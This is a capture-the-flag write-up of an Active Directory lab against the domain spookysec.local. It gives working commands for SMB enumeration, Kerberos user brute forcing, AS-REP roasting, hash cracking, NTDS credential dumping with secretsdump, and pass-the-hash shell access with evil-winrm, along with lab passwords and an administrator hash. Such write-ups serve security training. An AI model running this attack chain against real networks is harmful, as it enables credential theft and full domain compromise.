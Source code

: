 # **Attacking Active Directory**

Running our nmap scan we have 

```bash
# Nmap 7.94 scan initiated Fri Dec 29 07:26:23 2023 as: nmap -p53,80,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -sCV --min-rate=1000 -T4 -oN nmap.txt -v 10.10.234.228
Nmap scan report for 10.10.234.228
Host is up (0.29s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-29 06:26:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-12-29T06:26:53
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 29 07:27:07 2023 -- 1 IP address (1 host up) scanned in 44.78 seconds
```


> [!bug]
> According to nmap output, we have `spookysec.local`, in this case `.local` is identified as the Top-Level Domain (TLD)


# **SMB Enumeration - Port 139/445**

We can use the tool `enum4linux` to enumerate this port, we have **THM-AD** as the `NetBIOS-Domain` Name


![](https://i.imgur.com/Uzgypv9.png)


We also have some lists of users

![](https://i.imgur.com/JaORfAd.png)


We can also use `rpcclient` to enumerate 


```bash
rpcclient -U "" -N 10.10.234.228
```


![](https://i.imgur.com/L10FL7X.png)


Some important commands as used above -:


```bash
rpcclient>srvinfo

rpcclient>enumdomusers

rpcclient>getdompwinfo
```


We couldn't get anything from `rpcclient` though, so let keep enumerating



# **Kerberos Enumeration - Port 88**


We can use a tool called [Kerbrute](https://github.com/ropnop/kerbrute/releases) to enumerate this service to brute force discovery of users, passwords and even password spray!

> [!info]
> Kerberos is a key authentication service within Active Directory.

- **Enumerate** users on a domain

```bash
# --dc : IP of target (KDC)
# -d : domain name
kerbrute userenum --dc 10.10.234.228 -d spookysec.local <Username_wordlist>
```


![](https://i.imgur.com/BOwIWDn.png)


- Bruteforce password of a single user

```bash
# --dc : IP of target (KDC)
# -d : domain name
kerbrute bruteuser --dc 10.10.234.228 -d spookysec.local <passwd_wordlist> <username>
```


![](https://i.imgur.com/2iAQcWV.png)
![](https://i.imgur.com/UxGMJ1D.png)


# **Abusing Kerberos**


we can abuse a feature within Kerberos with an attack called **ASREPRoasting**, we can use a tool called `GetNPUsers.py` withing **impackets** to do this


```bash
GetNPUsers.py spookysec.local/ -dc-ip 10.10.234.228 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
```


As we can see below we have the hash of only `svc-admin` user, a service account


![](https://i.imgur.com/flTlJ5Y.png)


we can go ahead and crack it using `hashcat`

```bash
hashcat -m 18200 hashes.txt ./passwordlist.txt
```


![](https://i.imgur.com/V5Dqn9w.png)

Same password we got with `kerbrute`, Nice :)


# Enumeration Cont'D


Since we now have the username and passwords of the `svc-admin` user and `backup` user given more access within the domain, We can now attempt to enumerate any shares that the domain controller may be giving out.

First tool that comes to mind is `smbclient` and `smbmap`, let try to see shares on this users

```bash
# smbclient
smbclient -U 'svc-admin' -L \\\\10.10.234.228\\

# smbmap
smbmap -u 'svc-admin' -p 'management2005' -H 10.10.234.228
```


`svc-admin` user -:


![](https://i.imgur.com/C3lCOix.png)


`backup` user -:

![](https://i.imgur.com/2iE2kmN.png)


Enumerating `svc-admin` share we found a backup directory with a `backup_credentials.txt` file

![](https://i.imgur.com/TmgRNL6.png)


We can read this file using `smbclient`


![](https://i.imgur.com/ntECgGC.png)

Decoding the content of this file from `Basee64` gives us this


```
backup@spookysec.local:backup2517860
```


Haha, looks like we are a bit faster, `kerbrute` has done most of the work for us :)


```
secretsdump.py spookysec.local/backup:backup2517860@10.10.234.228
```


# **Elevating Privileges within the Domain**


The backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes. we can use another tool within Impacket called "`secretsdump.py`". This will allow us to retrieve all of the password hashes that this user account has to offer in `NTDS.dit`

```
secretsdump.py spookysec.local/backup:backup2517860@10.10.234.228
```


![](https://i.imgur.com/4SRZHpC.png)



Since we have the **Win-RM** port opened(**5985**), we can use a tool called `evil-winrm` to gain shell on our target with just their **usernames** and respective **NT hashes**

**_Administrator_** -:

```bash
evil-winrm -i 10.10.234.228 -u administrator -H '0e0363213e37b94221497260b0bcb4fc'
```


![](https://i.imgur.com/BMRYiqX.png)


Since we are admin and we can't login via `svc-admin` and `backup` we can go ahead and retrieve the other flags located under `C:\Users\` :)

GG



